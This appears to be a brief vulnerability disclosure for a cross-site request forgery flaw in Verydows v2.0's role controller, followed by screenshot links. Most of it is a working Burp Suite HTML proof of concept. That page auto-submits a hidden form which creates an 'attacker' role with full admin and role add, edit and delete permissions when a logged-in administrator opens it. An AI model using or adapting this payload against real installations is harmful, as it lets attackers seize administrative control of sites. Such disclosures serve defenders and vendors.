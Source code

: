 target:https://gitee.com/cigery/verydows

version:v2.0

Verydows v2.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /protected/controller/backend/role_controller.php


![](../Added CSRF in Role Controller.assets/image-20231220213209690.png)

create poc

![](../Added CSRF in Role Controller.assets/Snipaste_2023-12-20_21-33-54.png)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/index.php?m=backend&c=role&a=add&step=submit" method="POST">
      <input type="hidden" name="role&#95;name" value="attacker" />
      <input type="hidden" name="role&#95;desc" value="" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;delete" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

successed

![](../Added CSRF in Role Controller.assets/image-20231220213602214.png)

![](../Added CSRF in Role Controller.assets/image-20231220213621857.png)
